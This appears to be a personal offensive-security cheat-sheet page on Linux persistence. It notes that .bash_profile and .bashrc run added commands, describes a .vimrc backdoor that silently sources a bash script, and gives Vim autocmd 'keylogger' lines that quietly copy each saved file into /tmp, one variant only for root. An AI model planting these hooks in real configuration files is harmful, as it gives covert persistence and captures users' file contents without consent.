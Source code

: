 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Config_Files
---
```



<span style="font-size: 35px; color:red"><b>Linux Configuration Files</b></span>

You can add bash commands to these file to execute them:
- <span style="color:red">.bash_profile</span>: run when the system boots.
- <span style="color:red">.bashrc</span>: run when a new terminal window is open.

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Vim Configuration Backdoor</b></span>

Opening VIM, you can run commands (after the <span style="color:red">:</span>) like <span style="color:red">! touch /tmp/test.txt</span>

Modify <span style="color:red">.vimrc</span> (or create a new one like <span style="color:red">.vimrunscript</span>) adding commands and load them with <span style="color:red">:silent !source ~/.vimrunscript</span> (where <span style="color:red">vimrunscript</span> is a bash script file)
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Vim Keylogger</b></span>
```shell
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```
OR
```shell
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```
